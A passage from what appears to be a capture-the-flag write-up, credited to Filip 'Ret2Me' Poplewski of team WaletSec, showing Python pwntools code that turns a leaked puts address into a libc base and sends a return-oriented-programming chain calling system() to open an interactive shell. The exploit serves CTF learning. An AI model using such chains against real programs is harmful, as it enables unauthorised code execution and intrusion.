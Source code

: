 ```py
puts_addr = puts_addr[:-1]
puts_addr += b'\x00\x00'
print("edited puts_adr", puts_addr)
puts_addr = u64(puts_addr)
libc = puts_addr - 0x071910




print("puts: ", hex(puts_addr))
print("libc: ", hex(libc))


payload = b'\x79' * padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    #pop rdi; ret
payload += p64(libc + 0x181519)
payload += p64(libc + 0x0449c0) # system()
server.sendline(payload)
server.interactive()
```

## Credits: 
Writeup by: Filip "Ret2Me" Poplewski</br>
Solved by: Filip "Ret2Me" Poplewski</br>
Team: WaletSec</br>

